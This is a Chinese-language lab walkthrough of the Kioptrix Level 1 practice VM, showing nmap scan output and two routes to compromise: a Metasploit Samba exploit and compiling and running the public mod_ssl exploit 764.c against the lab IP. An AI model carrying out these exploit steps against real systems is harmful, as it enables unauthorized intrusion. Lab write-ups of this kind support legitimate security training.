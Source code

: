 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: 靶机 KIOPTRIX:LEVEL 1 Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2022-03-21
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false

typora-root-url: ..\..\..\.vuepress\public

---
```


## 0x01 扫描

扫描IP，发现主机IP

192.168.56.104

扫描端口

`nmap -T5 -A -v -p- 192.168.56.104`

```
└─$ nmap -T5 -A -v -p- 192.168.56.104  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-21 00:14 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating Ping Scan at 00:14
Scanning 192.168.56.104 [2 ports]
Completed Ping Scan at 00:14, 0.00s elapsed (1 total hosts)
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Initiating Connect Scan at 00:14
Scanning 192.168.56.104 [65535 ports]
Discovered open port 443/tcp on 192.168.56.104
Discovered open port 111/tcp on 192.168.56.104
Discovered open port 80/tcp on 192.168.56.104
Discovered open port 139/tcp on 192.168.56.104
Discovered open port 22/tcp on 192.168.56.104
Discovered open port 1024/tcp on 192.168.56.104
Completed Connect Scan at 00:14, 4.34s elapsed (65535 total ports)
Initiating Service scan at 00:14
Scanning 6 services on 192.168.56.104
Completed Service scan at 00:14, 11.01s elapsed (6 services on 1 host)
NSE: Script scanning 192.168.56.104.
Initiating NSE at 00:14
Completed NSE at 00:14, 10.42s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 1.15s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Nmap scan report for 192.168.56.104
Host is up (0.00031s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce 5293 4723 e7fe c28d 74ab 42d7 02f1
|_SHA-1: 9c42 91c3 bed2 a95b 983d 10ac f766 ecb9 8766 1d33
|_ssl-date: 2022-03-21T17:14:49+00:00; +12h59m59s from scanner time.
| http-methods: 
|_  Supported Methods: GET HEAD POST
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_http-title: 400 Bad Request
1024/tcp open  status      1 (RPC #100024)

Host script results:
|_clock-skew: 12h59m58s
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>

NSE: Script Post-scanning.
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Initiating NSE at 00:14
Completed NSE at 00:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.20 seconds

```

## 0x02 方法一

发现samba，使用smbclinet没有扫出来版本，使用msf扫描发现版本

![image-20220415181220010](/assets/img/image-20220415181220010.png)

搜索exp发现

![image-20220415181234735](/assets/img/image-20220415181234735.png)

使用msf利用



![image-20220415181245923](/assets/img/image-20220415181245923.png)

尝试payload，修改LHOST后利用成功，获得root权限

![image-20220415181255633](/assets/img/image-20220415181255633.png)

![image-20220415181300663](/assets/img/image-20220415181300663.png)

## 0x03 方法二

​	使用nikto扫描

![image-20220415181311227](/assets/img/image-20220415181311227.png)

发现mod_ssl存在问题，搜索exp

![image-20220415181318656](/assets/img/image-20220415181318656.png)

尝试使用764

还需要安装libssl-dev: 

```
apt-get install libssl-dev
```

编译764.c

```
gcc -o 764 764.c -lcrypto
```

执行exp

```
./764 0x6b 192.168.56.104 443 -c 50
```

因为网络问题，目标机无法下载COMMAND2下载提权代码，所以只获得apache权限，正常情况下可以直接获得root权限
